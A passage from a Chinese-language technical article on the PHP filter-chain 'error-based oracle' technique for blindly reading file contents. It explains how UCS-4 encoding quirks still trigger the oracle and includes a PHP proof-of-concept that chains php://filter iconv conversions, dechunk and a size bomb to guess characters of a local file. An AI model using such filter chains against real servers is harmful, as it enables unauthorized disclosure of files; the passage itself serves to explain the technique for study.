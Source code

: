 [![](assets/1698893103-33056ed5a87805b64518e04b827566f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231029230951-3550c18a-766d-1.png)

现在就可以联合已经发现的方法来访问文件中的任何字符了。

### 无关的多字节序列

如果您使用过`UCS-4` 编码，会知道 `UCS-4` 只能编码大小是 4 的精确倍数的字符串，但由于文件的大小也计算好了，所以 oracle 还是会触发，尽管系统会产生编码警告，下面的例子阐述了这个原理：

```plain
<?php

$size_bomb = "";
for ($i = 1; $i <= 20; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $swap_bits = "convert.iconv.UTF16.UTF16|convert.iconv.UCS-4LE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UCS-4LE.UCS-4|";
    $filter = "php://filter/$swap_bits$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the fifth character is "."edcba"[$i-1]."\n";
}
```
